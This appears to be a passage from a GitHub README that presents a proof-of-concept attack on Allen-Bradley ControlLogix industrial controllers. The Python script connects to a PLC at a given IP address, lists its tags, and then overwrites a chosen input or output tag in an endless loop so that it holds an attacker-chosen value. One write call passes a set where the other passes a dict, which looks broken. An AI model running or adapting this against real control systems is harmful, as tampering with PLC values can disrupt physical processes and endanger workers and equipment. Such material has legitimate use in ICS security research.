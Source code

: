 ```python
    slot_string = "\n".join([f"{key}: {value}" for key, value in ugly_slot_data.items()])
    print(slot_string)
```


### Allen-Bradley ControlLogix Read/Write PoC
---

The **Allen-Bradley ControlLogix Read/Write PoC** extracts the current running configuration of a specified ControlLogix PLC. The attacker then inputs the target "tag" (or a local variable) from the returned configuration, and the specified tag is then continuously overwritten with a value via an infinite loop to achieve a desired effect.

- The continuous loop is required because the overwritten value is volatile, and returns to the original value immediately after the writing is complete.


**Install Dependencies:**
```python
pip install pycomm3
```


**Proof-of-Concept:**
```python
from pycomm3 import LogixDriver
import sys

# Target information
print("[+] Allen-Bradley ControlLogix")
ip = input(" o  Input IP: ")

# Connect and Acquire Existing Variable names
try: 
  obj = LogixDriver(ip)
  connected = obj.open()
except:
  print("[-] Connection failed.")
  sys.exit()

obj.get_tag_list()

print("\n[+] Listing Available Tags:")
print(" o  Tags containing 'I' are for input.")
print(" o  Tags containing 'O' are for ouptut.")
print(" o  Tags containing 'C' are for error handling.\n")

for tag in obj.tags:
  print(tag)

tag = input("\n[+] Input Target Tag: ")

# Constantly Write Data to an Existing Variable
print("\n[+] Writing constant data to '" + tag + "'...")

# Write to "Input" variable
if 'I' in tag:
  while True:
    obj.write(tag, {'Fault':0, 'Data': 1})
    
# Write to "Output" variable
elif 'O' in tag:
  while True:
    obj.write(tag,{'Data', 1})

# Unsupported tag
```